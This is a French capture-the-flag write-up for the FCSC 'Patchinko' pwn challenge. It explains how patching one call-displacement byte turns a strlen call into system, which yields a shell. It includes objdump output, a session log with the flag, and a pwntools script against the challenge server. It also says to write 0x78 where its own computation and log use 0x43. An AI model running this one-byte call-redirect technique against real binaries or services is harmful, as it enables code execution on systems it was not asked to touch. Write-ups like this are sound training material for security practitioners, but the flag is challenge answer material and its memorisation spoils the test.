 # Patchinko - PWN - 200

> Venez tester la nouvelle version de machine de jeu Patchinko ! Les chances de victoire étant proches de zéro, nous aidons les joueurs. 
> Prouvez qu'il est possible de compromettre le système pour lire le fichier flag.

## Fonctionnement du service

En se connectant au service donné, il nous est gracieusement proposé de patcher un octet du binaire **avant son lancement**.

Nous devons donc tirer profit de ce cadeau du ciel en modifiant un octet nous permettant de lire le flag!

## Analyse du binaire

Le binaire n'est pas très compliqué, il nous demande dans un premier temps notre nom, puis génère 1 nombre aléatoire qu'on doit ensuite deviner ...

On remarque également la présence de **system** qui est suspecte. Elle est utilisée dans le binaire pour afficher un simple message.

Il faudrait donc remplacer le call d'une fonction prenant en premier paramètre une chaîne que l'on contrôle par system, ce qui nous permettra d'éxecuter une commande sur le service !

Prenons par exemple strlen, qui est un parfait candidat pour ce que nous recherchons !

## Altération du flux d'exécution

Avec objdump, nous récupérons les deux instructions de call vers system et strlen:

```
400853:	e8 78 fe ff ff       	call   4006d0 <system@plt>
400888:	e8 33 fe ff ff       	call   4006c0 <strlen@plt>
```

Un seul octet varie entre les deux !
Nous devons donc modifier l'octet à 0x400889 par la valeur 0x78, ce qui appelera system à la place de strlen lors de l'exécution !

Cependant, dans le fichier, il n'y a pas l'adresse de base, l'offset réel est donc 0x889.

Mais pas si vite ... Le call est relatif et se base sur la valeur de RIP, nous devons donc déduire de cette valeur la différence entre les deux instructions, ce qui nous donne: ```0x78 - (0x400888 - 400853) = 0x43.```

## Récupération du flag

Il nous suffit donc d'indiquer au service de modifier l'octet à l'offset 0x889 par 0x78, puis de taper /bin/sh pour avoir un shell !
Seulement, dans le binaire la taille de l'entrée est limitée à 4 caractères, nous ne pouvons pas rentrer /bin/sh ...

Mais system se base sur le PATH, nous pouvons donc raccourcir notre /bin/sh à un simple sh !

```
At which position do you want to modify (base 16)?
>>> 0x889
Which byte value do you want to write there (base 16)?
>>> 0x43
== Let's go!
Hello! Welcome to Patchinko Gambling Machine.
Is this your first time here? [y/n]
>>> sh
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
cat flag
FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}
``` 

Boom, on a le flag !

FLAG: FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}

Niveau automatisation c'est pas ouf, on doit quand même écrire des trucs pour obtenir un shell ...
Un petit script ça ferait pas de mal !

```py
#!/usr/bin/python

from pwn import *

where = 0x0889
what = 0x43

r = remote('challenges1.france-cybersecurity-challenge.fr', 4009)

r.recv()

r.sendline(hex(where))
r.recv()

r.sendline(hex(what))
r.recv()

r.sendline("sh")
r.interactive()
```
